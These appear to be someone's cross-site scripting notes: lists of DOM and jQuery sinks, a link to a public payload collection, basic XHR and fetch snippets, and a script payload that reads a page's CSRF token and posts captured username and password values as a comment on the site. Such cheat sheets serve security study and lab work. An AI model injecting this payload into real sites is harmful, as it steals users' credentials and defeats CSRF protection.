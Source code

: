 sinks to DOM-XSS
```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
location.search
window.location
```

jQuery sinks to DOM-XSS
```
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#common-payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#common-payloads)

basic requests
```
let xhr = new XMLHttpRequest()
xhr.open('GET','http://website.com',true)
xhr.send('email=update@email.com')

fetch('http://website.com')
```

generic form submitting
```
<script>
var csrfToken = document.getElementsByName('csrf')[0].value;

var data = new FormData();
data.append('csrf', csrfToken);
data.append('postId', 6);
data.append('comment', `${username}:${password}`);
data.append('name', 'victim');
data.append('email', 'test@test.com');
data.append('website', 'https://test.com');

fetch('/post/comment', {
	method: 'POST',
	mode: 'no-cors',
	body: data
});
```